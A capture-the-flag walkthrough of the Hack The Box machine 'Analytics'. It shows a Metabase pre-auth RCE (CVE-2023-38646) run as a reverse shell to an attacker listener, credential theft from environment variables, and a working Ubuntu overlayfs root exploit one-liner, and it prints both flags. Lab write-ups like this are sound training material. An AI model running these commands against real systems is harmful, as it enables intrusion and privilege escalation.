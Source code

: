 ```yaml
---
title: "[HTB] Analytics"
date: 2023-10-16 18:14:31
tags: 
- [machine]
- [easy]
categories:
- [HTB]
---
```



<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    <img src="analytics.png" title="Analytics" width="300px" height="300px" style="pointer-events: none;">
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS:</strong>
      <img src="linux.png" alt="Linux" width="20px" height="20px" style="margin-left: 5px;">
      <span style="margin-left: 5px;">Linux</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Easy</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>7u9y & TheCyberGeek</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>October 7, 2023</span>
    </div>
  </div>

</div>



## Recon

### nmap

``` bash
$ nmap -sC -sV 10.10.11.233
```
![nmap scan](Analytics/nmapscan1.png)


We can see there is a http page running on port 80
Also we add the domain to the /etc/hosts file

![/etc/hosts](Analytics/hosts1.png)
### Web Page
After looking around the website, when I pressed the login button, it took me to the data.analytical.htb subdomain
So we update the hosts file again and we get a login page

![login page url](Analytics/datasub.png)
![/etc/hosts 2](Analytics/hosts2.png)

The login page:
![login page](Analytics/loginpage1.png)

After searching for a Metabase exploit, I came across [CVE-2023-38646](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396)

This vulnerability allows us to execute code without any authentication

## Exploit

### setup-token

We head to the url specified in the previous [link](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396) (data.analytical.htb/api/sessions/properties) and search for setup-token

![setup-token](Analytics/setup-token.png)
As we can see, the setup-token is leaking, which means it is vulnerable to the exploit

### Run the exploit

Download the [exploit](https://github.com/securezeron/CVE-2023-38646)

Setup a netcat listener.
``` bash
$ nc -lvnp 1234
```

While the listener is running, run the exploit
``` bash
$ python3 CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb/ --lhost <Attacker IP> --lport 1234
```

After the exploit runs, we get a shell as the user metabase.
![shell](Analytics/shell1.png)


### Docker Container

We are now in a docker container.
However, if we check the environment variables, we get a user and password
``` bash
$ env
```
![env command](Analytics/env.png)

### SSH and user flag

We can now use the credentials obtained to ssh as the user metalytics
``` bash
$ ssh metalytics@10.10.11.233 
```
We are now logged in as metalytics.
``` bash
$ whoami
metalytics 
```
We can now get the user.txt flag
``` bash
$ cat /home/metalytics/user.txt
a6c6422a0c214ffd37f50a632abeb48d
```

## PrivEsc

### Ubuntu LPE

No sudo commands can be run.
I searched for exploits on the running OS version, which is 22.04.2-Ubuntu
``` bash
$ uname -a
```
![Ubuntu Version](Analytics/ubuntuversion.png)

I found this [Ubuntu LPE exploit](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/)

First i tried to run the command "id" and see if I would get root back
``` bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```
![root uid](Analytics/rootuid.png)
We got the root id, which means the command is being executed as root

So I change the command to run a bash shell
``` bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

We now have a shell as root
``` bash
$ whoami
root
```

All we have left to do is get the root flag
``` bash
$ cat /root/root.txt
e7cea9c28a9c3460c2fd69964833561b
```
